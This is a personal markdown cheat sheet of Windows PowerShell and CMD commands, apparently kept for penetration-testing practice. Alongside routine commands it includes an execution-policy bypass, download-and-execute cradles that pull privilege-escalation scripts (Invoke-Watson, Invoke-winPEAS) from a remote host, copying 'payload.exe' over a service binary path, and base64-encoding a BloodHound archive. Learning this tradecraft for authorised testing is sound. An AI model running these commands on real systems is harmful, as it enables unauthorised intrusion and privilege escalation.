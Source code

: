 ```yaml
---
description: The basic of Powershell and CMD
---
```


# Basic Command

This note was created when I was not very familiar with the Windows environment. I didn't know how to restart the machine from the command line, copy files, or import PowerShell scripts, etc.

### Import Module to Powershell

```powershell
powershell -ep bypass
Import-Module .\PowerView.ps1
# or
. .\PowerView.ps1
```

### Copy command

```powershell
# copy files
copy payload.exe "C:\Program Files\Service.exe"
# copy directory name Tools to new directory "MyTools"
xcopy Tools "C:\Users\Administrator\Desktop\MyTools" /E /I
```

### Rename command

```powershell
# Rename Payload.exe to Service.exe
ren Payload.exe Service.exe
```

### Download files

{% code overflow="wrap" %}
```powershell
# using certutil
certutil -urlcache -split -f https://example.com/example.txt example.txt
# using powershell Invoke-WebRequest
iwr -Uri "http://172.16.8.1:9005/PowerView.ps1" -O "PowerView.ps1"
# Download and Execute script
iex ((New-Object Net.WebClient).DownloadString("http://172.16.8.1:9005/Invoke-Watson.ps1"))
# or
$watson_exec = [System.Text.Encoding]::UTF8.GetString((iwr -Uri "http://172.16.8.1:9005/Invoke-Watson.ps1" -UseBasicParsing).Content)
iex $watson_exec
```
{% endcode %}

### Download and Execute Invoke-WinPEAS

* [**Invoke-WinPEAS**](https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module\_source/privesc/Invoke-winPEAS.ps1)

{% code overflow="wrap" %}
```powershell
iex ((New-Object Net.WebClient).DownloadString("http://172.16.8.1:9005/Invoke-winPEAS.ps1"))
# or
$winpeas_ps1 = [System.Text.Encoding]::UTF8.GetString((iwr -Uri "http://172.16.8.1:9005/Invoke-winPEAS.ps1" -UseBasicParsing).Content)
iex $winpeas_ps1
```
{% endcode %}

### Restart and Reboot

```powershell
 # Shutdown now
 shutdown /s /t 0 /f
 # Restart
 shutdown /r /t 0 /f
```

### Convert to Base64

{% code overflow="wrap" %}
```powershell
[convert]::ToBase64String((Get-Content -path "20230908145747_BloodHound.zip" -Encoding byte))
```
{% endcode %}

### Others

Check privileges

```
whoami /all
whoami /priv
```

Check Group List

```powershell
Get-LocalGroup
net localgroup
Get-ADGroup -filter * -properties * |select SAMAccountName, Description
```

Check group member

{% code overflow="wrap" %}
```powershell
Get-LocalGroupMember -Group "Administrators"
Get-ADGroupMember -Identity Administrators | Select-Object name, objectClass,distinguishedName
```
{% endcode %}
